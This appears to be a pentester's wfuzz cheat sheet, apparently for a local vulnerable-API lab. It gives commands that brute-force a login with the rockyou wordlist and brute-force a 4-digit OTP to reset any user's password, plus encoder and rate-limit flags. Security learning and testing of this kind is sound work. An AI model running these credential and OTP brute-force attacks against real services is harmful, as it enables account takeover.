

# wfuzz


## Basic commands



```bash
wfuzz -d '{"email":"hapihacker@hapihacker.com","password":"PASSWORD"}' -H 'Content-Type: application/json'-z file,/usr/share/wordlists/rockyou.txt -u http://localhost:8888/identity/api/auth/login --hc 500
# -H to specify content-type headers. You use a -H flag for each header
# -d allows you to include the POST Body data. 
# -u specifies the url
# --hc/hl/hw/hh hide responses with the specified code/lines/words/chars. In our case, "--hc 500" hides 500 code responses.
# -z specifies a payload   
```


```bash
# Fuzzing an old api version which doesn't implement a request limit when resetting password. It allows us to FUZZ the OTP and reset the password for any user.
wfuzz -d '{"email":"hapihacker@hapihacker.com", "otp":"FUZZ" "password":"NewPasswordreseted"}' -H 'Content-Type: application/json'-z file,/usr/share/wordlists/SecLists-master/Fuzzing/4-digits-0000-9999.txt -u http://localhost:8888/identity/api/auth/v2/check-otp  --hc 500
```


### Encoding

```bash
# Check which wfuzz encoders are available
wfuzz -e encoders

# To use an encoder, add a comma to the payload and specify the encoder name
wfuzz -z file,path/to/payload.txt,base64 http://hackig-example.com/api/v2/FUZZ

# Using multiple encoders. Each payload will be processed in separated requests.  
wfuzz -z list,a,base64-md5-none 
# this results in three payloads: one encoded in base64, another in md5 and last with none. 

# Each payload will be processed by multiple encoders.
wfuzz -z file,payload1-payload2,base64@md5@random_upper -u http://hackig-example.com/api/v2/FUZZ
```

### Dealing with rate limits (in APIs)

```
-s  Specify a time delay between requests.
-t Specify the concurrent number of connections
```